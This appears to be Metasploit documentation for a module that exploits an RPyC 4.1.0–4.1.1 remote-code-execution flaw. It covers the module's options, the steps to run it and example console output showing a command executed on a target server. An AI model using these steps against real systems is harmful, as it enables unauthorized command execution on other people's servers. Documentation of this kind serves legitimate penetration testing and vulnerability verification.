 ## Introduction
This module automatically exploits a vulnerability to remotely execute code on
RPyC servers running versions 4.1.0 and 4.1.1. The vulnerability allows a
remote attacker to dynamically modify object attributes to construct a remote
procedure call that executes code for an RPyC service with default
configuration settings.

## Vulnerable Application:

RPyC servers running versions between 4.1.0 and 4.1.1.

Link to vulnerable RPyC version:
https://github.com/tomerfiliba-org/rpyc/releases/tag/4.1.1


Link to Advisory:
https://github.com/advisories/GHSA-pj4g-4488-wmxm

## Options

**RHOST**

Configure the remote vulnerable system.

**RPORT**

Configure the TCP port of the RPyC server.

**COMMAND**

Configure the command to execute on the remote system.

## Verification Steps

1. Have exploitable RPyC server (example IP: 0.0.0.0):
2. Start `msfconsole`:
3. Do:  ```use auxiliary/scanner/http/rpyc_rce```
4. Do: ```set RHOST 0.0.0.0```
7. Do: ```set RPORT 18812``` (Set the remote port on which the server is accessible)
8. Do: ```set COMMAND whoami``` (Set the command you want to execute)
9. Do: ```run```
10. Logs the output of the command you specified.


## Scenarios

Exploiting a vulnerable RPyC server located at 0.0.0.0:9999 with the command
`whoami`:

```log
msf auxiliary(scanner/http/rpyc_rce) > set RHOST 0.0.0.0
msf auxiliary(scanner/http/rpyc_rce) > set RPORT 9999
msf auxiliary(scanner/http/rpyc_rce) > set COMMAND whoami
msf auxiliary(scanner/http/rpyc_rce) > run
```

Demo example output for the module:

```log
msf > use auxiliary/scanner/http/rpyc_rce
msf auxiliary(scanner/http/rpyc_rce) > show options

Module options (auxiliary/scanner/http/rpyc_rce):

Name     Current Setting  Required  Description
----     ---------------  --------  -----------
COMMAND  whoami           yes       Command to execute
RHOST    0.0.0.0          yes       Target address
RHOSTS   0.0.0.0          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
loit/basics/using-metasploit.html
RPORT    9999             yes       Target port
THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf auxiliary(scanner/http/rpyc_rce) > set RHOST 0.0.0.0
RHOST => 0.0.0.0
msf auxiliary(scanner/http/rpyc_rce) > set RPORT 9999
RPORT => 9999
msf auxiliary(scanner/http/rpyc_rce) > set COMMAND whoami
COMMAND => whoami
msf auxiliary(scanner/http/rpyc_rce) > run

[*] Running for 0.0.0.0...
[*] Connected to RPyC service at 0.0.0.0:9999
[*] Executing command: whoami
[*] Command result: nobody
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
